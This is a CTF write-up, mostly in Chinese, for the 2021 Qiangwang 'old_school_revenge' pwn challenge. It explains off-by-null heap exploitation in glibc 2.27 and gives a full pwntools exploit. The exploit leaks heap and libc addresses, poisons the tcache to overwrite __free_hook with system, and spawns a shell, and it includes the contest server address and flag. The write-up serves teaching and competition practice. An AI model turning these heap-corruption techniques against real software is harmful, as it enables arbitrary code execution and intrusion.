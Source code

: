 # 第四届“强网”拟态防御国际精英挑战赛 2021 pwn **old_school_revenge**

> challenge name: `old_school`
>
> file: `old_school_revenge`, libc-2.27.so
>
> .i64 with comments provided
>
> writeup writer: hexhex16@outlook.com    https://github.com/hex-16 thanks liwl
>
> 是这场比赛另一题`old_school`的进阶版，`old_school`是Off-By-One，这题是Off-By-Null

Off-By-Null相比于Off-By-One的区别：只能修改下一chunk的size域的最低1字节为0，而不能修改为任意数字。所以在Off-By-One中使用的增大unsorted bin中chunk的size的方法不再适用。

采用的方法：在一个chunk c0中，伪造一个chunk头部（改size(inuse=1)，fw, bk指向自身，改下一chunk的`prev_size`），触发OffByNull把后一chunk的inuse改为0；然后把后面一个chunk释放到unsorted bin中，会触发unlink的merge，将fake chunk合并，即把fake chunk顺进unsorted bin中；然后再把fake chunk拿回来，再把fake chunk释放入tcache，就可以通过c0改tcache中chunk的fw了

```python
c0(0x30)  # 在这里构造一个fake chunk，fw bk指向自身，同时改c1的prev_size
c1(0x100) # 后续利用c0触发OffByNull，改inuse位为0，释放时将fake chunk合并，一同放入unsorted bin
```

重点在于，将一个chunk free进unsorted bin时，触发chunk的合并，把一个原本还在使用中的chunk的一部分带入unsorted bin中。

# Theory and Security Check

- free chunk时，如果该chunk无法进入tcache或者fastbin时（单链），用下一chunk的`prev_inuse`判断该chunk是否空闲，如果`prev_inuse=0`表示该chunk空闲，则free一个空闲chunk，出错

```python
c0
c1 # prev_inuse=1, size=0x20, 
c2 # prev_inuse=0, prev_size=0x20 # 以下案例将讨论 free(c2) c2进入unsorted bin的状况
c3
c4
```

free(c2)时，如果该chunk要进入unsorted bin，则：

1. 向前合并：判断`prev_inuse`是否为0，如果为0，则依据`prev_size`判断前一chunk c1的起始位置，将c1合并，c2 c1一起放入unsorted bin。如果`c1.prev_inuse=0`，则依据`c1.prev_size`尝试合并c0。
2. 向后合并：依据`c4.prev_inuse`判断c3是否空闲，如果c3空闲则尝试向后合并。

安全检查：

- free(c2)时，可能会检查c3.size是否合法
- free(c2)时，若`c2.prev_inuse=0`，依据`c2.prev_size`找到c1起始地址后，判断`c1.size`是否与`c2.prev_size`相等
- free(c2) 尝试合并c1时，在unlink过程中，会将c1从双链表上解下，则需要满足(e.g.)`c1->fw->bk == c1` && `c1->bk->fw==c1`（这是举个最简单的例子），这里c1指`c1.prev_size`的地址



# exp

```python
from pwn import *
context.arch = 'amd64'
context.log_level = "debug"
IP = "123.60.63.39"
PORT = 49154
DEBUG = 1


if DEBUG:
    p = process(["./ld.so", "./old_school_revenge"], env={"LD_PRELOAD": "./libc-2.27.so"})
    libc = ELF("./libc-2.27.so")
    # attention: argv[1] for ./pwn when running with ./ld.so ./pwn
    base = p.libs()[p._cwd + p.argv[1].decode().strip('.')]  # fix bytes str error in py3.9
    print("base:", base, p.libs())

else:  # flag{m0lWJAzDB1vzxMn9PlMQXkPvEmGAdZzB}
    p = remote(IP, PORT)
    libc = ELF("./libc-2.27.so")


def ru(x): return p.recvuntil(x)
def se(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def l64(): return u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))  # python 3.9 pass


def debug(cmd=""):
    gdb.attach(p, cmd)


def dd():
    if DEBUG:
        cmd = ""
        # cmd += "b *%d\n" % (base + 0xC0E)  #
        cmd += "set $a=%d\n" % (base + 0x202160)  # arrPtr
        debug(cmd)


def new(idx, size):
    sla("Your choice: ", str(1))
    sla("Index: ", str(idx))  # max: = 0x1F = 31
    sla("Size: ", str(size))  # max: = 0x100
    ru("Done!")


def edit(idx, content):
    sla("Your choice: ", str(2))
    sla("Index: ", str(idx))
    sa("Content: ", content)


def show(idx):
    sla("Your choice: ", str(3))
    sla("Index: ", str(idx))
    ru("Content: ")
    return ru("1. New note")[:-12]


def delete(idx):
    sla("Your choice: ", str(4))
    sla("Index: ", str(idx))


# Step-1: full tcache(0x100), prepare a chunk and a fake chunk that will deleted and merged to unsorted bin
new(0, 0x28)  # 0x30 # fake c0'(0x20) here
new(1, 0xf8)  # 0x100
for i in range(7):  # 0x100
    new(i + 10, 0xf8)  # 10, 11... 16
for i in range(7):
    delete(i + 10)  # 10, 11... 16

# Step-2: leak heap base addr
new(10, 0xf8)  # get a chunk in tcache
new(9, 0x18)  # avoid top chunk merge

data = show(10)  # get heap base addr
temp = u64(data.ljust(8, b"\x00"))
heap_base = temp - 0x555555f8c890 + 0x0000555555f8c000
print("data:", data, data.hex())
print("heap_base:", heap_base, hex(heap_base), hex(temp))
delete(10)  # del chunk10 to tcache head chunk

# Step-3: edit fake chunk: size, fw, bk; prev_size, OffByNull.
c1fake_addr = heap_base + 0x260  # 0x555556a66960 - 0x555556a66000
# edit fake chunk # cover prev_size=0x20 # cover size=0x101 with 0x100, means prev chunk NOT in use
edit(0, p64(0xdeadbeef) + p64(0x21) + p64(c1fake_addr) + p64(c1fake_addr) + p64(0x20))
dd()
# Step-4: delete a chunk to unsorted bin, trigger unlink, merge fake chunk
delete(1)  # to unsorted bin # trigger unlink, merge fake chunk(0x20)
# tcache(0x100)cnt=7: c10.... # unsorted bin: size=0x120

# Step-5: get fake chunk from unsorted bin, delete to tcache
new(20, 0x58)  # get fake chunk from unsorted bin
data = show(20)  # leak libc addr
temp = u64(data.ljust(8, b"\x00"))
libc.address = temp - 0x7f443a8f4db0 + 0x00007f443a509000
print("data:", data, data.hex())
print("libc.address:", hex(libc.address), hex(temp))
new(21, 0x58)
new(29, 0x18)  # avoid top chunk merge
delete(21)  # to tcache(0x60)
delete(20)  # delete fake chunk to tcache(0x60) # tcache(0x60)cnt=2: chunk20(fake chunk), chunk 21

# Step-6: edit fake chunk in tcache, then tcache poisoning
edit(0, p64(0x110) + p64(0x61) + p64(libc.symbols["__free_hook"]) + b'\n')  # cover fw with &__free_hook

new(20, 0x58)  # get chunk from tcache(0x60) # tcache(0x60)cnt=1: &__free_hook
edit(20, "/bin/sh\x00\n")
new(21, 0x58)  # get &__free_hook from tcache(0x60)
edit(21, p64(libc.symbols["system"]) + b'\n')  # cover __free_hook(NULL) with &system
delete(20)  # get shell: system("/bin/sh\x00\n")

p.interactive()

```

多调多试简称调试



- 利用chunk0编辑完fake chunk，触发OffByNull之后，chunk0的内容如下（由于有PIE ASLR，具体数值仅供参考）：

```assembly
gef➤  x /30xg 0x555556385260 -0x10 # chunk0 addr=0x555556385260
0x555556385250: 0x0000000000000000      0x0000000000000031 # chunk0 size=0x31
0x555556385260: 0x00000000deadbeef      0x0000000000000021 # fake chunk: prev_size, size(inuse=1)
0x555556385270: 0x0000555556385260      0x0000555556385260 # fake chunk: fw, bk; point to -0x10
0x555556385280: 0x0000000000000020      0x0000000000000100 # chunk1: prev_size=0x20, size(inuse=0)
0x555556385290: 0x0000000000000000      0x0000000000000000 ......
```

